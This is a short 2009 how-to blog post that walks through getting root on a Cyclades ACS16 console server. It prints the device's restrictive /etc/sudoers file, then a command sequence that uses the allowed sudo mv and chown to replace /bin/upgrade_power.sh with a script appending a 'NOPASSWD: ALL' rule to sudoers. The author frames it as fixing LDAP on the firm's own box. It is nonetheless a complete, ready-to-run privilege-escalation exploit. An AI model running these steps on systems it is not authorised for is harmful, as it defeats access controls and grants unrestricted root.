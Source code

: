 Title: root on a Cyclades ACS console server
Date: 2009-11-18 16:21
Author: admin
Category: Tech HowTos
Tags: acs, cyclades, gettingroot
Slug: root-on-a-cyclades-acs-console-server

At work we have a Cyclades ACS16 console server (running
Cyclades-ACS16-Linux V\_3.2.0 (Jan/04/08)). While the docs claim all
sorts of LDAP features, there's nothing (either in the web GUI or the
CLI configuration tool) to setup LDAP with TLS or required group
membership. I tried modifying the /etc/ldap.conf and /etc/nsswitch.conf
files, running `saveconf` and `runconf` and even rebooting, but no luck.
It was apparent that I needed root on the box. Unfortunately, they don't
give you root, and their sudo command is locked down. But, I figured, if
sudo would let me </code> and `chown` and `cat` and `mv` (enough to
switch out the ldap.conf and nsswitch.conf files), root should be pretty
easy.

The failing of Cyclades' sudo lockdown is that it allows sudo execution
of a few random shell scripts, and also allows \`mv\`.

The `/etc/sudoers`:

~~~~{.text}
# sudoers file.
#
# This file MUST be edited with the 'visudo' command as root.
#
# See the sudoers man page for the details on how to write a sudoers file.
#

# User alias specification

# Runas alias specification

# Host alias specification

# Cmnd alias specification
Cmnd_Alias     SH_CMDS = /bin/cp,  
                        /bin/chown,  
                        /bin/egrep,  
                        /bin/grep,  
                        /bin/cat,  
                        /bin/tar,  
                        /bin/kill,  
                        /bin/mkdir,  
                        /bin/mv,  
                        /bin/rm,  
                        /bin/sed,  
                        /bin/touch,  
                        /sbin/reboot,  
                        /usr/bin/killall,  
                        /usr/bin/w,  
                        /bin/w_cas,  
                        /bin/sess_mngt,  
                        /sbin/route,  
                        /bin/what

Cmnd_Alias     CONF_FILES = /bin/vi /etc/network/st_routes,  
                           /bin/vi /etc/portslave/pslave.conf,  
                           /bin/vi /etc/resolv.conf

Cmnd_Alias     APPLICATIONS = /bin/pmCommand,  
                             /bin/saveconf,  
                             /bin/restoreconf,  
                             /bin/runconf,  
                             /bin/daemon.sh,  
                             /bin/manageService.sh,  
                             /bin/dsviewKillAdmin,   
                             /bin/pmfwupgrade,   
                             /bin/adsap2_clear,   
                             /bin/upgrade_power.sh,   
                             /bin/signal_ras

# User privilege specification
# root can run any command on any host as any user.
root    ALL = (ALL) ALL

# admin user group command specification.
%admin      ALL = NOPASSWD: SH_CMDS, CONF_FILES, APPLICATIONS
~~~~

So, /bin/upgrade\_power.sh doesn't look like we're using it too much.
Here's our root procedure. Before doing this, create the
`/home/admin/foo.sh` script.

~~~~{.bash}
sudo cp /bin/upgrade_power.sh /bin/upgrade_power.sh.SAVE
sudo chown root:root /home/admin/foo.sh
sudo mv /home/admin/foo.sh /bin/upgrade_power.sh
sudo /bin/upgrade_power.sh
sudo cat /etc/sudoers # just to verify that it worked
sudo mv /bin/upgrade_power.sh.SAVE /bin/upgrade_power.sh # set things back to the way they were
~~~~

And the key to all of it is the simple `/home/admin/foo.sh` script:

~~~~{.bash}
#!/bin/bash

chmod u+w /etc/sudoers
echo "%admin      ALL = NOPASSWD: ALL" >> /etc/sudoers
chmod u-w /etc/sudoers
~~~~

That's it!
